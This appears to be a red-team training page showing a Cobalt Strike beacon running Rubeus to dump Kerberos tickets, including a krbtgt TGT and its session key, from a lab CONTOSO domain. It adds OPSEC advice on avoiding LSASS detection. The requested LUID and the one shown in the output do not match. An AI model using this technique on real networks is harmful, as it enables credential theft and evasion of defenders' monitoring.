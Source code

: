 Rubeus' `dump` command with no additional parameters will extract every single ticket.  Use the `/service` and/or `/luid` parameters to target a specific service and/or logon session.  Tickets with krbtgt as the service are TGTs, other tickets are service tickets.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x35b1d /service:krbtgt /nowrap

Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0xd42c80
[*] Current LUID    : 0x9ff74

  UserName                 : rsteel
  Domain                   : CONTOSO
  LogonId                  : 0xd42c80
  UserSID                  : S-1-5-21-3926355307-1661546229-813047887-1108
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 17/02/2025 09:53:40
  LogonServer              : LON-DC-1
  LogonServerDNSDomain     : CONTOSO.COM
  UserPrincipalName        : rsteel@contoso.com

    ServiceName              :  krbtgt/CONTOSO.COM
    ServiceRealm             :  CONTOSO.COM
    UserName                 :  rsteel (NT_PRINCIPAL)
    UserRealm                :  CONTOSO.COM
    StartTime                :  17/02/2025 09:53:40
    EndTime                  :  17/02/2025 19:53:40
    RenewTill                :  24/02/2025 09:53:40
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  18ERntJqjw7kxyWcumyzU0uOzbjM3spuh9bMkV4OiKI=
    Base64EncodedTicket   :

      doIFm[...snip...]DT00=
```

\
You must be in a high-integrity session to triage and dump tickets from LUIDs other than your own.

#### OPSEC <a href="#el_1744394351860_337" id="el_1744394351860_337"></a>

The major OPSEC advantage of dumping tickets from memory is that it does not touch LSASS in the same way that dumping hashes does (e.g. with Mimikatz sekurlsa).  The ticket data are recovered using LSA APIs such as [LsaCallAuthenticationPackage](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsacallauthenticationpackage), rather than pulling them directly from LSASS memory.  This means we never obtain a handle to the LSASS process and therefore won't be logged via kernel callbacks.
